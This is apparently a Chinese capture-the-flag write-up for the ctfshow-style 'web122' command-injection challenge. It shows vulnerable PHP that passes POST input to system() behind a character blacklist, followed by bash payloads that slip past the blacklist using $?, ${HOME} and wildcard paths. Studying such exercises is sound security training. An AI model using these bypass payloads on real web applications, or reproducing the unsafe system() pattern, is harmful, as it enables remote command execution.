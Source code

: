 
参照web121的payload`code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???`这题只是多过滤了SHLEL，这里我们只需要找到可以替换SHLVL的值。

> $?
> 用途：上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误。

```bash
root@npfs:~# echo ${#?}
1
```

payload: 

```bash
code=${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???
```



## web 122

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```

增加了#和PWD的过滤，使得我们无法通过获取内置变量的长度获取字符串

PWD过滤了可以用HOME代替，`${HOME}`默认是`/root`，接下去我们只要再找到`1`来代替`${#SHLVL}`

> $?
>  执行上一个指令的返回值 (显示最后命令的退出状态。0表示没有错误，其他任何值表明有错误)

fuzz下发现题目没有过滤`<`，所以我们利用`<A;`报错。从而使`$?`返回值为1

payload：

```bash
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```
